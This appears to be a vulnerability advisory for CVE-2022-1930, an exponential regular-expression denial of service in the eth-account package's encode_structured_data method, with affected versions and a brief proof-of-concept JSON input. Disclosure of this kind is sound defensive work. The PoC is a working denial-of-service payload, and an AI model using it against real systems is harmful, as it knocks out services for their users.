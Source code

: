 ```yaml
---
description: CVE-2022-1930 Medium severity. Exponential ReDoS in eth-account leads to denial of service
title: eth-account ReDoS
date_published: "2022-08-11"
last_updated: "2022-08-11"
xray_id: XRAY-248681
vul_id: CVE-2022-1930
cvss: 5.9
severity: medium
discovered_by: Denys Vozniuk
type: vulnerability

---
```


## Summary

Exponential ReDoS in eth-account leads to denial of service

## Component

[eth-account](https://www.npmjs.com/package/eth-account)

## Affected versions

eth-account (,0.5.9), fixed in 0.5.9

## Description

An exponential ReDoS (Regular Expression Denial of Service) can be triggered in the eth-account PyPI package, when an attacker is able to supply arbitrary input to the `encode_structured_data` method

## PoC

```
{
        "types": {
                "EIP712Domain": [
                        {"name": "aaaa", "type": "$[11111111111111111111111110"},
                        {"name": "version", "type": "string"},
                        {"name": "chainId", "type": "uint256"},
                        {"name": "verifyingContract", "type": "address"}
                 ]
        }
}
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-1930)